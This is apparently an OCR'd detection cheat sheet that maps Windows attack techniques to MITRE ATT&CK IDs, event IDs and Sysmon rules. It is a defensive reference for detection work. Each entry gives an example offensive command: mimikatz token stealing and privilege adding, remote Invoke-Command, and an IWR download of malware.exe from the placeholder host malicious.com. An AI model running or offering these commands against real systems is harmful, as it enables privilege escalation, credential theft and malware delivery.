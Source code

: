 ### **Modify Token Privileges:**

ID:** 021
MITRE Tactic & Techniques:** Privilege Escalation | Modify Token [T1134.005]
**Event ID & Code:** 4673 | TOKEN_PRIVILEGES_MODIFIED
Status Code:** N/A
Sysmon Rule ID:** 121
Commands and Code:** `whoami /priv`
Description:** Modification of token privileges to elevate or change permissions.
**Example Offensive Codes and Commands:** `mimikatz "token::addpriv" "SeDebugPrivilege"`

### **Token Theft:**

**ID:** 022
**MITRE Tactic & Techniques:** Defense Evasion | Token Manipulation [T1134]
Event ID & Code:** 4672 | SPECIAL_PRIVILEGES_ASSIGNED
Status Code:** N/A
**Sysmon Rule ID:** 122
Commands and Code:** `whoami /priv`
Description:** Theft of a token to impersonate another user or escalate privileges.
**Example Offensive Codes and Commands:** `mimikatz "token::steal" [Token ID]`


### **PowerShell Script Execution:**

**ID:** 023
MITRE Tactic & Techniques:** Execution | PowerShell [T1059.001]
Event ID & Code:** 4104 | SCRIPT_BLOCK_LOGGING
**Status Code:** N/A
Sysmon Rule ID:** 123
**Commands and Code:** `Set-ExecutionPolicy Bypass`
Description:** Execution of PowerShell scripts which could be malicious.
Example Offensive Codes and Commands:** `powershell -File malicious-script.ps1`

### **PowerShell Remote Command Execution:**

**ID:** 024
**MITRE Tactic & Techniques:** Lateral Movement | Remote PowerShell Session [T1021.006]
Event ID & Code:** 4103 | ENGINE_LIFECYCLE
Status Code:** N/A
Sysmon Rule ID:** 124
Commands and Code:** `Enter-PSSession -ComputerName target-system`
Description:** Initiating a remote PowerShell session for lateral movement.
Example Offensive Codes and Commands:** `Invoke-Command -ComputerName target-system -ScriptBlock { malicious-command }`

### **PowerShell Downloader Script:**

**ID:** 025
MITRE Tactic & Techniques:** Command and Control | Ingress Tool Transfer [T1105]
**Event ID & Code:** 4104 | SCRIPT_BLOCK_LOGGING
Status Code:** N/A
Sysmon Rule ID:** 125
Commands and Code:** `IWR -URI http://malicious.com/malware.exe -OutFile C:\path\malware.exe`
- **Description:** PowerShell used to download malicious files from external sources.
- **Example Offensive Codes and Commands:** `powershell -command "IWR -URI http://malicious.com/malware.exe -OutFile C:\path\malware.exe"`
